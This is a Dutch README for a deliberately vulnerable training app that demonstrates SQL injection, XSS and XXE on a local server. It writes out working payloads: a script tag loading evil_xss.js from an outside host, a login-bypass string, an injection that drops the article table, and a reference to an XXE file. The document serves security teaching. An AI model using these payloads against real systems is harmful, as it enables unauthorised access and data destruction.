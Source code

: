 # OwaspVulnerabilities
<br>
In deze applicatie zijn drie vulnerabilities ingebouwd.<br>
<br>
Injection (sql en code)<br>
Cross site scripting XSS<br>
XML External Entity (XXE) Processing<br>
<br>
Injection (sql en code)<br>
Na het starten van de applicatie is er een H2 database met url: http://localhost:9080/h2-console/<br>
User is sa, password is leeg.<br>
<br>
Tabellen User en Article<br>
User wordt gebruikt om 'in te loggen' - SQL injectie<br>
Article wordt gebruikt om code te injecteren.<br>
<br>
Testen gaat via Swagger (http://localhost:9080/swagger-ui.html#/) en browser. Er is geen frontend.<br>
<br>
Code injectie <br>
<br>
Voeg middels 'addArticle' van de ArticleController een article toe met in het veld description: <br>
<code><script>alert('Hello')</script></code><br>
(id mag leeg blijven)<br>
In de response is het aangemaakte article te zien met het id.<br>
Gebruik dit id in 'getArticleById' om het article op te halen.<br>
Er gebeurt verder niets maar de code is te zien in de response.<br>
Kopieer de 'Request url' onder het Curl stukje (bijv. http://localhost:9080/api/article/getArticleById?id=2).<br>
Gebruik de url in de browser.<br>
Er is nu een alert melding te zien.<br>
Voek een nieuwe article toe met in het veld description:<br>
<script src='http://home.kpn.nl/vuwu57lx/evil_xss.js'></script><br>
Gebruik van de url van dit nieuwe article (bijv. http://localhost:9080/api/article/getArticleById?id=3)<br>
geeft nu een melding in de browser m.b.t. encrypted files<br>

---------------------------------------------------------------------------------------------------------<br>
SQL injectie<br>
<br>
De methode authenticate van de AuthenticationController wordt gebruikt om in te loggen.<br>
Bij verkeerde credentials wordt status 401 teruggegeven en een leeg user object.<br>
Bij de juiste credentials wordt een gevuld user object teruggegeven<br>
user nikki@info.org<br>
pw   S&cr#t<br>
In de logging is de gebruikte sql query te zien:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = 'S&cr#t'<br>
Het is nu de kunst om iets in het password in te vullen zodat een geldige query ontstaat die resultaat oplevert.<br>
Een voorbeeld is: ' or '1' = '1<br>
De query wordt dan:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'<br>
Dit: ' or '1' = '1'   ; drop table article; --<br>
geeft query <br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'   ; drop table article; --'<br>
en heeft tot gevolg dat tabel article is verwijderd.<br>
<br>
---------------------------------------------------------------------------------------------------------<br>
XML External Entity (XXE) Processing<br>

In een XML bestand is het mogelijk om een DOCTYPE element op te nemen.<br>
Hierin kunnen uitvoerbare instructies staan<br>
XML parsers voeren deze instructies uit, afhankelijk van bepaalde settings.<br>
<br>
De RegisterXxeAttackController logt een dergelijke 'aanval'.<br>
Upload in Swagger via de XmlUploadController bestand ...src/main/resources/aanvraag.xml<br>
Het gevulde object wordt getoond in de response.<br>
Doe hetzelfde met ...src/main/resources/xxeaanvraag.xml<br>
In de logging is nu te zien:<br>
RegisterXxeAttackController      : Http request in !DOCTYPE element in xml is executed!<br>
<br>
<br>
N.B.<br>
In de pom staan dependencies voor jaxb omdat deze geen deel meer uitmaken van Java versies > 8<br>
Het kan zijn dat hier, afhankelijk van de gebruikte Java versie, problemen mee ontstaan.<br>




